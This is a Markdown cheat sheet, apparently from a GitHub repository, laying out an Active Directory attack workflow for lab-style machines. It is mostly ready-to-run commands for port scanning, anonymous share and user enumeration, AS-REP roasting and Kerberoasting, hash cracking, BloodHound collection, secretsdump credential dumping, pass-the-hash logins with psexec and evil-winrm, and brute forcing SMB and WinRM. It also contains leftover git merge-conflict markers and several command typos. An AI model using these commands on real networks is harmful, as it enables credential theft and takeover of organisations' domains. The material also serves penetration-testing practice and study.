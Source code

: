 ## Active Directory 
### Machine workflow
- [Tools](#too)
- [Enumerate Ports and Shares](#enum)
- [Identify valid users](#user)
- [Obtain users has who have kerberos pre auth set](#gnp)
- [Crack the hash to obtain the password](#cra)
- [Repeat Recon](#rrpc)
- [Enumerate other users in the network](#enumu)
- [Remote login if hash is obtained](#pwn)

### Required Tools <a name='too'></a>
- [Impackets](https://github.com/SecureAuthCorp/impacket)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
- [Kerbrute](https://github.com/ropnop/kerbrute)
- [Windsearch](https://github.com/ropnop/go-windapsearch)
- [EvilWinRM](https://github.com/Hackplayers/evil-winrm)
- [BloodHound.py](https://github.com/fox-it/BloodHound.py)

### Enumeration Ports <a name="enum"></a>
```bash
# nmap 
nmap -p- --min-rate=1000 -oN ports -vv <machine-ip>
# sorting ports
open=$(cat ports | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//))
# enumerate services
nmap -sC -sV -p$open -oN nmap.out -T4 -vv <machine-ip>
```

### Anonymous Access
```bash
# crackmapexec
crackmapexec smb <machine-ip> -u'' -p'' <machine-ip> --shares

# smbclient
smbclinet -N -L \\<machine-ip>\\

#rpcclinet
rpcclient -U '' -P'' <machine-ip> # logs into the network if anon login is permitted
rpcclinet $> enumdomusers # enumerates the AD users
```

### Accessing a SMB Share
```bash
# smbclient
smbclient \\\\<machine-ip>\\<share-name>
```

### User Enumeration <a name='user'></a>

- kerbrute

```bash
# no authentication is required, just the user name list
# enumerate AD users with kerbrute
kerbrute userenum --dc 10.10.*.* -d <domain-name> <username(s)>
```

### Mounting an open share

```bash
# mount an anonymous login share
sudo mount -t cifs '//10.10.*.*/ShareName' /<mount-location>
```

### Kerberos Hacking <a name="gnp"></a>
```bash
# after obtaining valid users, look for users with kerberos preauth set
GetNPUsers.py -dc-ip <machine-ip> -format hashcat -usersfile <username(s)> <domain-name>/ -outputfile <hash-output>
```

### Obtaining Password <a name="cra"></a>
```bash
# cracking with hashcat
# TGT hash crack
hashcat -m 18200 -w /usr/share/wordlists/rockyou.txt <hash-file>
# SPN hash crack
hashcat -m 13100 -w /usr/share/wordlists/rockyou.txt <hash-file>

# cracking with JOHN THE RIPPER
# TGT hash crack
john --format=krb5tgs -w=/usr/share/wordlists/rockyou.txt <hash-file>
```

### Recon as a user in network <a name='rrpc'></a>
```bash
# since we have the user credentials for a user in the AD network, recon again to obtain files with specific permissions

# enumerate smb shares
crackmapexec smb <machine-ip> -u '<username>' -p '<password>'  --shares

# accessing smb share
smbclient -L \\\\<machine-ip>\\<share-name> -U <username> <password>

# mounting the share
sudo mount -t cifs -o 'username=UserName,password=Password' '//10.10.*.*/ShareName' /<mount-location>

# enumerate anything ¯\_(ツ)_/¯ with windsearch 
windsearch -d <domain-name> -u <user-name> -p <password> -m <module>
```

### Enumerate other users <a name="enumu"></a>
```bash
# a valid login into the network is required
# getadusers.py from impackets
GetADUsers.py --all -dc-ip <machine-ip> <domain-name>/<username>:<password> # TGT will be obtained which can be cracked offline

# enumerate service name principles
GetUserSPNs.py -request -dc-ip <machine-ip> <domain-name>/<username>:<password> # SPN hash will be obtained which can be cracked offline

# via rpcclient
rpcclient -U <username> -P <password> <machine-ip> #logged into the network
rpcclinet $> enumdomusers # enumerate users in the active directory environment

# crackmapexec
crackmapexec smb <machine-ip> -u <username> -p <password> --users

# windsearch 
windsearch -d <domain-name> -u <user-name> -p <password> -m users
```

### Bloodhound Enumeration <a name='bh'></a>
```bash
# setup
git clone https://github.com/fox-it/BloodHound.py; cd BloodHound.py; python3 setup.py install

# Running bloodhound.py (run on linux)
python3 bloodhound.py -u <username> -p <password> -ns <machine-ip> -d <domain> -c all 
```
```powershell
# with sharpsploit
powershell -ep bypass
import-module .\SharpHound.ps1
invoke-bloodhound -collectionmethod all -domain <domain-name> -ldapuser <user-name> -ldappass <password>
```

```bash
# start the neo4j console
sudo ne04j console

# start the bloodhound
cd /opt/bloodhound-linux-x64/
./BloodHound

# import all the json files
# mark the obtained user as owned user and the target user as high value target
```

### Owning the machine <a name='pwn'></a>
```bash
# perform bloodhound enumeration
# if the access to the backup account is obtained,
secretsdump.py -dc-ip <machine-ip> -just-dc <domain-name>/backup:<password>@<domain-name>

# login to the machine

# psexec.py
# with password
psexec.py <domain-name>/<username>:<password>@<domain-namee>
# with ntlm hash
psexec.py -hashes <ntml:hashes> <username>@<domain-name> -target-ip <machine-ip> -dc-ip <machine-ip>
psexec.py -hashes <ntlm:hashes> <username>@<machine-ip>


# evilwinrm
# with password
evilwinrm -i <machine-ip> -u <username> -p <password>
# with ntlm hash
evilwinrm -i <machine-ip> -H <ntlm hash from secretsdump> -u <username>
```

### Misc

#### Bruteforce
##### Hydra
```bash
# bruteforcing smb login
hydra -L users.txt -P pass.txt 10.10.*.* smb
```
##### Crackmapexec
```bash
# bruteforcing smb login, enumerating the available shares with --shares option
crackmapexec smb 10.10.*.* -u user.txt -p pass.txt --shares --continue-on-success

# bruteforcing winrm login
crackmapexec winrm 10.10.*.* -u users.txt -p pass.txt --continue-on-success 
```
##### Medusa
```bash
# bruteforcing smb login
medusa -h 10.10.*.* -U users.txt -P pass.txt -M smbnt 
```

#### File Transfer
##### SMB Service
```bash
# start a smb service in linux
# anonymous share
smbserver.py <share-name> . -smb2support
# authenticated share
smbserver.py <share-name> . -smb2support -username <username> -password <password>

# connect to the smbshare in windows
# anonymous share
net use x: \\<linux-ip>\<share-name>
# authenticated share
net use x: \\<linux-ip>\<share-name> /u:<username> <password>

# Copy file from windows to linux
copy <file-in-windows> \\<linux-ip>\<share-name>\
# copy files from linux to windows
copy \\<linux-ip>\<share-name>\<file.ext> .

```

<<<<<<< HEAD
##### Useful Links
- https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
- https://cheatsheet.haax.fr/windows-systems/exploitation/impacket/
- https://cheatsheet.haax.fr/windows-systems/exploitation/kerberos/
- https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet
=======
##### useful links
- https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
- https://cheatsheet.haax.fr/windows-systems/exploitation/impacket/
- https://cheatsheet.haax.fr/windows-systems/exploitation/kerberos/
>>>>>>> dea41aa2b59fa497c70e9445f4c39b70a290ee5c
